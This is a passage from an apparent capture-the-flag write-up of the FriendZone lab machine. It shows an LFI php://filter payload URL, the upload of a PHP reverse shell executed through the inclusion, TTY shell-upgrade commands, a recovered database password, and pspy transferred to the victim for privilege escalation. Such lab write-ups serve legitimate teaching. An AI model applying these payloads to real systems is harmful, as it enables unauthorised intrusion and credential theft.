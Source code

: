 ![09-web](09-web.png)

# Initial Foothold

See the content of `dashboard.php` using the next [LFI Wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers) and decrypt it using `base64`.
```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard
```
![10-php](10-php.png)

The script appends `.php` to pagename argument and then it's executed.

Reminding that we have write permissions into `Development` directory from samba share folder, just need to upload a php reverse shell into it with the `put` command and then execute it from the website using the next URL:

```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell
```

We got the reverse shell.

![11-nc](11-nc.png)

Now spawn a TTY Shell

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z
$ stty raw -echo;fg
$ reset
$ export TERM=xterm
$ export SHELL=bash
```
In `/var/www`, we see `mysql_data.conf` file containing credentials for user `friend`.

![12-creds](12-creds.png)

User | Password
-|-
friend|Agpyu12!0.213$

# Privilage Escalation

I didn't find any SUID file or sudoers file but there was a interesting python script in `/opt/server_admin` named `reporter.py` to be sure that this file was a  root's cronjob, transfer [pspy64](https://github.com/DominicBreuker/pspy/releases) to victim machine using a Python HTTP Server and run it.

![13-pspy](13-pspy.png)
